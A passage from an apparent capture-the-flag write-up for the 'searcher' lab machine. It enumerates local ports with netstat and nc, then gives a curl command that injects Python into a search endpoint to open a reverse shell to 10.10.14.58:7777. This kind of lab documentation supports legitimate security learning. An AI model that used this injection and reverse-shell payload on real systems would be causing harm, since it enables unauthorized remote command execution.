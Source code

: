 Ports:
```bash
netstat -tulpn

tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      tcp        0      0 127.0.0.1:222           0.0.0.0:*               LISTEN      tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      tcp        0      0 127.0.0.1:35709         0.0.0.0:*               LISTEN      tcp        0      0 127.0.0.1:5000          0.0.0.0:*               LISTEN      1633/python3        
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      tcp6       0      0 :::80                   :::*                    LISTEN      tcp6       0      0 :::22                   :::*                    LISTEN      udp        0      0 127.0.0.53:53           0.0.0.0:*                           udp        0      0 0.0.0.0:68              0.0.0.0:*                           
```
=> Port 222 is a SSH server
=> Port 35709 is a web server:
```bash
nc 127.0.0.1 35709

# HTTP/1.1 400 Bad Request
# Content-Type: text/plain; charset=utf-8
# Connection: close
```
=> Port 5000 same application as on port 80?
```bash
nc 127.0.0.1 5000

# GET / HTTP/1.1
# Host: searcher.htb

# HTTP/1.1 200 OK
# Server: Werkzeug/2.1.2 Python/3.10.6
# Date: Fri, 23 May 2025 20:25:35 GMT
# Content-Type: text/html; charset=utf-8
# Content-Length: 13519
# Connection: close

# <!DOCTYPE html>
# [...]
# <p class="copyright">searcher.htb © 2023</p>
# [...]
```
From SSH connection we can use the same exploit:
```bash
curl -X POST http://127.0.0.1:5000/search --data "engine=Accuweather&query=', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.14.58',7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"))#"
```
=> The shell is also from "svc", so no privesc here.
